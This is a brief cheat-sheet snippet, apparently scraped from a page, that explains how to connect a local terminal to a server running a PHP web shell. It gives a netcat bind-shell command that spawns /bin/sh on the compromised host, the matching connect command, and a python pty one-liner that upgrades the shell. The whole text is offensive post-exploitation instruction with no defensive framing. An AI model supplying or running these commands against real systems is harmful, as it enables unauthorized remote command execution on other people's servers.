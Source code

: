 Connecting your local shell with a php shell via netcat:

On PHP Shell (where 31337 is any port you choose):
nc -lp 31337 -e /bin/sh

On your Shell (where domain is either the .com or the IP):
nc domain 31337

Turn a netcat shell into a real-looking shell
python -c "import pty; pty.spawn('/bin/bash');"
